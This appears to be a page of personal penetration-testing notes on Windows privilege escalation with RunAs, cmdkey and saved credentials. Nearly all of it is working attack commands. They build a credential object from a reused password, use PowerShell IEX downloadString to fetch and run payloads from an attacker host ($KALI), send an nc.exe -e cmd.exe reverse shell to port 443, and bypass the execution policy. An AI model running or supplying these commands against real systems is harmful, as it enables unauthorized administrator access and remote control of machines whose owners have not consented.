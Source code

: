 ####  RunAs via PowerShell (Requires creds)
**Method1**
Attempting to re-use a found password with the Administrator account can be achieved using PowerShell:

![[Pasted image 20220926193742.png]]

```Powershell - target
$passwd = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force;$creds = New-Object System.Management.Automation.PSCredential('administrator' $passwd)
```

will store the credentials in `$creds` for the session. 

A reverse shell can now be opened with the supplied credentials using the command:

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

[[rlwrap]]

```powershell
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://$KALI/Shelly.ps1')" -Credential $creds
```

**Method2**


Say we already have Alice's (Local Admin member) password, we can execute cmd as her.

[[rlwrap]]

```powershell - target
echo $username = 'alice' > startprocess.ps1
```

```powershell - target
echo $password = '$PASSWORD' >> startprocess.ps1
```

```powershell - target
echo $securePassword = ConvertTo-SecureString $password -AsPlainText -Force >> startprocess.ps1
```

```powershell - target
echo $credential = New-Object System.Management.Automation.PSCredential $username, $securepassword >> startprocess.ps1
```

Transfer over nc.exe
```bash - kali
cp /usr/share/windows-resources/binaries/nc.exe .
```

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

[[4._File Transfers]]

```
echo $KALI
```

==REPLACE $KALI WITH YOUR IP!==
```command prompt - target
echo Start-Process 'C:\Users\$USER\AppData\Local\Temp\nc.exe' -ArgumentList '-e C:\Windows\System32\cmd.exe $KALI 443' -Credential $credential >> startprocess.ps1
```

```command prompt - target
powershell.exe Get-ExecutionPolicy -Scope CurrentUser
```

```command prompt - target
powershell.exe Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
```

```command prompt - target
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File startprocess.ps1
```

#### RunAs via cmdkey
```command prompt - windows
cmdkey /list
```

![[Pasted image 20220206132243.png]]

![[1._Reverse Shells (WIN)#Invoke-Powershell ps1]]

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

![[rlwrap]]

```command prompt - target
runas /user:ACCESS\Administrator /savecred "powershell iex(new-object net.webclient).downloadstring('http://$KALI/Invoke-PowerShellTcp.ps1')"
```

